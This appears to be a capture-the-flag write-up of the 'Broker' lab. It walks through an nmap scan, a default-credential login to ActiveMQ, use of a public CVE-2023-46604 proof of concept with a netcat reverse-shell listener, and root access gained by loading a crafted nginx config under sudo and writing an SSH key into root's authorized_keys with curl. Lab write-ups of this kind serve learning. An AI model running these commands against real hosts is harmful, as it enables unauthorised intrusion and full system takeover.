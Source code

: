 Exploitable externally and something identified on past engagements
* Host information: `10.129.231.4`
# User
* `nmap -sC -sV 10.129.231.4`
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-12 13:54 EDT
Nmap scan report for 10.129.231.4
Host is up (0.036s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Error 401 Unauthorized
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.47 seconds
```
* Browsing to port 80 takes you to a login page
	* looked up default creds for ActiveMQRealm (`admin:admin`)
	* resulted in a successful login
![](Broker-paste.png)
* Seeing as the lab is called broker I decided to investigate the `Manage ActiveMQ broker` link
![](Broker-paste-1.png)
* I can see that the version is 5.15.15, so I decided to investigate potential vulnerabilities for this version
	* https://nvd.nist.gov/vuln/detail/CVE-2023-46604
* looked up CVE-2023-46604 poc and got https://github.com/evkl1d/CVE-2023-46604
	* The POC needs to be running on a webserver **you host** not on the website
		* `python -m http.server 8081`
	* Also need a nc listener
		* `sudo nc -nlvp 8100`
	* THEN you run the exploit command: `python exploit.py -i <target-ip> -p <target-port> -u <url-to-poc.xml>`
		* The target port is **NOT** port 80, but 61616
			* port 80 is the UI
			* port 61616 is the default port it's running on
* This will call back as a reverse shell for the user `activemq`
	* the home directory has the user flag
# Root
#### Relavant TTPs:
[Nginx Priv Esc](Nginx%20Priv%20Esc.md)

* First thought is to see if root is not password protected with `sudo su` but no luck
* I then decided to list the allowed (and forbidden) commands for the invoking user on the current host with `sudo -l` 
	* This command helps users understand what privileges they have when using sudo
![](Broker-paste-2.png)
* I was able to see that the activemq user is able to run the nginx command with sudo privileges
* I then researched nginx privilege escalation and found [this git repo](https://gist.github.com/DylanGrl/ab497e2f01c7d672a80ab9561a903406)
	* A big issue I had with this exploit was that both`nano` and `vi` started looking and acting jank when I tried to use this
		* to resolve this, I made the conf file on my kali host and uploaded it to the web server I was hosting to pull the `poc.xml` from
* After creating the conf file and pulling it to the broker box, I loaded the conf file onto nginx with `sudo nginx -c /tmp/urmom.conf`
* I then generated a pair of ssh keys for myself, and added my public key to the root user with: 
```bash
curl -X PUT localhost:1339/root/.ssh/authorized_keys -d "$(cat .ssh/id_rsa.pub)"
```
* Finally, I sshed into the box as root with:
```bash
ssh -i .ssh/id_rsa -o StrictHostKeyChecking=no root@<BOXIP>
```
* `-o StrictHostKeyChecking=no` is needed or else it complains about a missing host key